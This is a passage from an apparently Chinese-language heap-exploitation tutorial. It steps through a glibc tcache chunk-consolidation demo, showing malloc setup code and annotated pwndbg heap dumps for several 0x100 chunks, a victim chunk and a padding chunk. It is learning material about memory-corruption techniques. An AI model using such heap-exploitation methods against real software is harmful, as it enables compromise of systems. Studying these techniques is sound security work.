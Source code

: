 ```c
0x5555557578b0:	0x0000000000000000	0x0000000000000111 #chunk6(malloc)
......
0x5555557579c0:	0x0000000000000000	0x0000000000020641 #top_chunk
......
0x555555757ae0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

然后创建一个堆块用来准备之后的整理工作（b 39->c）：

```c
    puts("Allocating a chunk for later consolidation");
    intptr_t *prev = malloc(0x100);
```

```c
pwndbg> x/350gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
......
0x555555757250:	0x0000000000000000	0x0000000000000111 #chunk0(malloc)
......
0x555555757360:	0x0000000000000000	0x0000000000000111 #chunk1(malloc)
......
0x555555757470:	0x0000000000000000	0x0000000000000111 #chunk2(malloc)
......
0x555555757580:	0x0000000000000000	0x0000000000000111 #chunk3(malloc)
......
0x555555757690:	0x0000000000000000	0x0000000000000111 #chunk4(malloc)
......
0x5555557577a0:	0x0000000000000000	0x0000000000000111 #chunk5(malloc)
......
0x5555557578b0:	0x0000000000000000	0x0000000000000111 #chunk6(malloc)
......
0x5555557579c0:	0x0000000000000000	0x0000000000000111 #chunk_prev(malloc)
......
0x555555757ad0:	0x0000000000000000	0x0000000000020531 #top_chunk
pwndbg> 
```

接下来我们创建两个堆块：chunk_victim和阻止和top_chunk合并的chunk（b 46->c）：

```c
    puts("Allocating the victim chunk.");
    intptr_t *a = malloc(0x100);
    printf("malloc(0x100): a=%p.\n", a); 
    puts("Allocating a padding to prevent consolidation.\n");
    malloc(0x10);
```

```c
pwndbg> x/400gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache
......
0x555555757250:	0x0000000000000000	0x0000000000000111 #chunk0(malloc)
......
0x555555757360:	0x0000000000000000	0x0000000000000111 #chunk1(malloc)
......
0x555555757470:	0x0000000000000000	0x0000000000000111 #chunk2(malloc)
......
0x555555757580:	0x0000000000000000	0x0000000000000111 #chunk3(malloc)
......
0x555555757690:	0x0000000000000000	0x0000000000000111 #chunk4(malloc)
......
0x5555557577a0:	0x0000000000000000	0x0000000000000111 #chunk5(malloc)
......
0x5555557578b0:	0x0000000000000000	0x0000000000000111 #chunk6(malloc)
......
```